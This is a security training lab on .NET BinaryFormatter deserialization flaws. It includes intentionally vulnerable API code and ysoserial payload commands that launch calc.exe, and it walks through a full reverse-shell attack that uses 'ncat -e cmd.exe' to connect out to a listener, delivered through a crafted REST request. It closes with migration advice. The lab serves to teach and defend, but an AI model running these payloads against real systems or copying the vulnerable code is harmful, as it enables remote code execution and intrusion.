


# Binary Serialization Vulnerability

The [BinaryFormatter](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=net-8.0&?WT.mc_id=MVP_337682) is present in .NET Framework, .NET Core[^1], and .NET 5-8. Microsoft released an extensive statement about the dangers of using the BinaryFormatter here:

[BinaryFormatter Security Guide](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide?WT.mc_id=MVP_337682)

[^1]: Binary Formatter was removed in .NET Core 1.0, but reappeared in .NET Core 1.1 and onward.

On Feb. 9th, 2024, Microsoft announced the BinaryFormatter is being removed from .NET 9:

[Announcement: BinaryFormatter is being removed in .NET 9](https://github.com/dotnet/runtime/issues/98245)

## Solution Review

1. Open the src/01-BinaryFormatterVulnerabilties/01-BinaryFormatterVulnerabilties.sln in your preferred IDE (Visual Studio or Visual Studio Code).

1. Open the SerializationTests.cs file in the TodoApi.Tests project and observe the `LaunchCalc` method.

    ``` cs
    [TestMethod]
    public void LaunchCalc()
    {
        // ysoserial -f BinaryFormatter -g ClaimsPrincipal -o base64 -c "calc"
        string maliciousString = "AAEA...UFDZ3M9Cw==";

        byte[] buffer = Convert.FromBase64String(maliciousString);

        using (var stream = new MemoryStream(buffer))
        {
            BinaryFormatter binaryformatter = new BinaryFormatter();
            object badObj = binaryformatter.Deserialize(stream);
        }
    }
    ```

    The malicious string was generated using:

    ``` bat
    ysoserial -f BinaryFormatter -g ClaimsPrincipal -o base64 -c "calc"
    ```

    This uses a vulnerability in the constructor of the `ClaimsPrincipal` in .NET Framework 4.8 to launch `calc.exe`. Running this test launches `calc.exe` on Windows and generates a serialization exception.

1. Open the MetadataItem.cs file in the Todo.API project Models folder. The `BinaryJsonConverter` is used to deserialize the request.

    ``` csharp
    public class MetadataItem
    {
        public string Name { get; set; }

        [JsonConverter(typeof(BinaryJsonConverter))]
        public object Data { get; set; }
    }
    ```

1. Open the BinaryJsonConverter.cs in the root of the TodoApi project. The vulnerability occurs on Deserialization.

    ``` csharp
    using (var stream = new MemoryStream(buffer))
    {
        BinaryFormatter binaryformatter = new BinaryFormatter();

        // This is the vulnerable line of code
        convertedObj = binaryformatter.Deserialize(stream);
    }
    ```

## Reproducing the Exploit : Launch Calc

1. Run the solution in Debug mode.

1. Open the requests.http file in the Solution Items directory.

1. Send the requests in order with the following labels:

    | Label | Result |
    | --- | --- |
    | list all items | Returns an empty array. |
    | create a new task | _walk dog_ task is added. Observe `isComplete` is `false` |
    | update an existing task | sets `isComplete` property on _walk dog_ task to `true` |
    | send benign binary data | creates _process datatable_ task with a serialized data table in metadata |
    | list all items | Returns _walk dog_ and _process datatable_ tasks |

    These requests do not result in any errors or exploits. The last request returns:

    ``` json
    [
        {
            "id": 0,
            "name": "walk dog",
            "isComplete": true,
            "metadata": null
        },
        {
            "id": 1,
            "name": "process datatable",
            "isComplete": false,
            "metadata": 
            [
                {
                    "name": "datatable",
                    "data": "AAEAAAD/////AQAAAAA...//Cw=="
                }
            ]
        }
    ]
    ```

1. Send the request labeled `send malicious binary data to launch calc.exe`. Observe that this launches the Calculator app on Windows. Deserialization raises an error and so the `data` property is null.

    ``` json
    {
        "id": 3,
        "name": "launch calc",
        "isComplete": false,
        "metadata": 
        [
            {
            "name": "calc",
            "data": null
            }
        ]
    }
    ```

## Opening a Reverse Shell

Reverse shells allow an attacker to open a command shell on a vulnerable machine from the attacker's machine.In this exercise, we will open a reverse shell from Ubuntu running on WSL (Windows Subsystem for Linux) to the Windows host.

This is a two stage process starting with launching a listener from the attacker. Then executing a command from the vulnerable target to open a port and establish access to the target's shell from the attacker.

This uses [`ncat`](https://nmap.org/ncat/guide/index.html), a versatile networking tool with extensive command line options for opening connections.

> **Ncat may not be permitted in a work environment as it is often used for penetration testing and attacking. Executing network scans without permission may trigger security alerts and prompt a response from the organization's Security Operations Center (SOC), potentially leading to disciplinary actions or legal consequences. Therefore, it is crucial to always obtain permission and follow established protocols before utilizing tools like Ncat in a professional setting.**

### Validating a Reverse Shall

This exercise walks through opening a reverse shell manually before adding more complexity. The next exercise opens a reverse shell by launching ncat from a malicious payload.



#### Preparing for the Attack

1. Open a Windows Command or Powershell terminal and install [nmap](https://insecure.org/) if it is not already present:

    ``` bat
    winget install Insecure.Nmap
    ```

1. Open an Ubuntu shell.

    ``` bat
    wsl
    ```

1. Get the ip address of the Ubuntu instance.

    ``` bash
    ifconfig
    ```  

    Note the IP address associated with the eth0 network interface. This example uses `172.30.181.236`. This will be used later to open the reverse shell from the target.

    If `ifconfig` is not available, then install it using:

    ``` bash
    sudo apt install net-tools
    ```

1. Start the listener on port 2222.

    ``` bash
    nc -vnlp 2222
    ```

    The options used here are:

    | parameter | description |
    | --- | --- |
    | -v | Set verbosity level (can be used several times) |  
    | -n | Do not resolve hostnames via DNS |  
    | -l | Bind and listen for incoming connections |  
    | -p | Specify source port to use |

The listener is now started on the attacking machine and ready to receive a connection from the target.

#### Validating the Connection

Before executing the attack, verify that it will work from the target machine by directly opening the reverse shell. A real-world attacker would not have this option. Since this is a test environment, it can be used to verify the attack before adding more complexity with ysoserial.net and a REST request.

1. Open a Windows Command or Powershell terminal and run:

    ``` bat
    ncat -e cmd.exe -nv 172.30.181.236 2222
    ```

    Use the IP address of the Ubuntu instance from the prior section if it's differs from the example. The `-e` parameter executes `cmd.exe` when the connection is established.

    Note the command line as this is used in the next exercise.

1. Return to the Ubuntu instance running the listener. Observe that a Windows command prompt is now available.

    ``` bat
    username@hostname:/mnt/c/Users/user$ nc -vnlp 2222
    Listening on 0.0.0.0 2222
    Connection received on 172.30.176.1 13502
    Microsoft Windows [Version 10.0.22631.3296]
    (c) Microsoft Corporation. All rights reserved.
    C:\Windows\System32>
    ```

1. Run a few commands to validate the connection.

    ``` bat
    dir
    whoami
    hostname
    ipconfig
    ```

### Opening a Reverse Shell from a Malicious Payload

This exercise creates and sends a message which exploits `BinaryFormatter` deserialization to open a reverse shell.

#### Prepare the Payload

If `ysoserial.exe` is not yet available, then install it using the steps here: [Install Ysoserial](serialization#ysoserialnet).

1. Open a Windows Command or Powershell terminal.

1. Generate the serialized `BinaryFormatter` payload that executes `ncat`. Use the command line that successfully opened a reverse shell in the prior exercise. Using the IP address of the Ubuntu instance in your environment which may be different than the example below.

    ``` bat
    ysoserial -f BinaryFormatter -g ClaimsPrincipal -o base64 -c "ncat -e cmd.exe -nv 172.30.181.236 2222"
    ```

1. Copy the generated payload to the requests.http file into the `data` property in the last request.

    ``` json
    POST https://{{hostname}}:{{port}}/api/TodoItems HTTP/1.1
    content-type: application/json

    {
    "name": "launch ncat",
    "metadata":
        [
            {
            "name": "launch ncat",
            "data": "<PASTE HERE>"
            }
        ]
    }
    ```

#### Launch the Attack

The sequence in the prior exercise changes a bit. In this scenario, the REST client could be from any machine with access to the REST endpoint. Rather than launching `ncat` manually, `ncat` runs when the payload is deserialized.



1. Open an Ubuntu shell.

    ``` bat
    wsl
    ```

1. Start the listener on port 2222.

    ``` bash
    nc -vnlp 2222
    ```

1. Launch the TodoAPI from your IDE in Debug Mode.

1. Open requests.http file and send the last request that was updated with your payload.

1. Navigate to the Ubuntu terminal running the listener on port 2222.

1. Run a few commands to validate the connection.

    ``` bat
    dir
    whoami
    hostname
    ipconfig
    ```

## Mitigating the Vulnerability

Migrating from the BinaryFormatter is not straight-forward as there is no direct replacement. If the BinaryFormatter has been used to persist data in a product or service then a migration strategy is necessary. The [BinaryFormatter Security Guide](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide?WT.mc_id=MVP_337682) recommends using:

- [XmlSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.xml.serialization.xmlserializer?view=net-8.0&WT.mc_id=MVP_337682) and [DataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.datacontractserializer?view=net-8.0&WT.mc_id=MVP_337682) to serialize object graphs into and from XML. Do not confuse [DataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.datacontractserializer?view=net-8.0&WT.mc_id=MVP_337682) with [NetDataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8.1?WT.mc_id=MVP_337682).
- [BinaryReader](https://learn.microsoft.com/en-us/dotnet/api/system.io.binaryreader?view=net-8.0&WT.mc_id=MVP_337682) and [BinaryWriter](https://learn.microsoft.com/en-us/dotnet/api/system.io.binarywriter?view=net-8.0&WT.mc_id=MVP_337682) for XML and JSON.
- The [System.Text.Json](https://learn.microsoft.com/en-us/dotnet/api/system.text.json?view=net-8.0&WT.mc_id=MVP_337682) APIs to serialize object graphs into JSON.

Other alternatives include:

- [MessagePack](https://msgpack.org/) is a fast binary serializer.
- [ProtoBuf](https://protobuf.dev/getting-started/csharptutorial/). This is used by some Microsoft teams[^2].

[^2]: See Preparing for migration in [BinaryFormatter is being removed in .NET 9 #293](https://github.com/dotnet/announcements/issues/293)
